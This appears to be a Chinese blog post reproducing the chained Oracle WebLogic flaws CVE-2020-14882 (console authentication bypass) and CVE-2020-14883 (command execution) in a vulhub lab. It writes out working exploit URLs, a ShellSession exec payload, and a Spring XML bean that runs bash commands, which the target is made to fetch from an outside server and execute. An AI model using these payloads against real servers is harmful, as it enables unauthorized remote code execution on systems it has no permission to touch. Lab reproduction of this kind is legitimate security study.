


# weblogic 未授权漏洞：CVE-2020-14882 weblogic 命令执行漏洞：CVE-2020-14883 - 学安全的小白 - 博客园

> 原文：[`www.cnblogs.com/pursue-security/p/17029180.html`](https://www.cnblogs.com/pursue-security/p/17029180.html)

漏洞编号 weblogic 未授权漏洞：CVE-2020-14882 weblogic 命令执行漏洞：CVE-2020-14883 漏洞说明 CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过 HTTP 协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。影响版本 Oracle WebLogic Server，版本 10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。漏洞复现靶场环境为：vulhub weblogic CVE-2020-14882CVE-2020-14882 未授权访问链接：/console/images/%252E%252E%252Fconsole.portal images 后所有标点空格都需使用 url 编码方式访问，浏览器会默认改编码为标点。未授权访问的控制台进入后台后，由于是低权限用户所以无法执行命令，此时需要使用 CVE-2020-14883 漏洞执行命令。CVE-2020-14883 有两种不同的利用方式。一、通过 com.tangosol.coherence.mvel2.sh.ShellSession （Weblogic 12.2.1 以上版本利用）二是通过 com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext。第一种利用方式直接访问下面的 url 执行命令 http://192.168.116.133:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")页面显示 404，回到服务器端执行如下命令登录到容器中。docker exec -it 容器 id /bin/bash这个利用方法只能在 Weblogic 12.2.1 以上版本利用，因为 10.3.6 并不存在 com.tangosol.coherence.mvel2.sh.ShellSession 类。com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext 是一种更为通用的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上.。xml 文件代码如下：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>bash</value>
<value>-c</value>
<value><![CDATA[touch /tmp/success2]]></value>
</list>
</constructor-arg>
</bean>
</beans>
```

然后通过如下 URL，即可让 Weblogic 加载这个 XML，并执行其中的命令：

```
http://192.168.116.133:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://121.4.45.196/demo.xml")
```

访问一下连接创建文件：

[/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(“http://自己服务器地址/自己创建的 xml 文件”)](http://121.36.175.13:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext()) 成功创建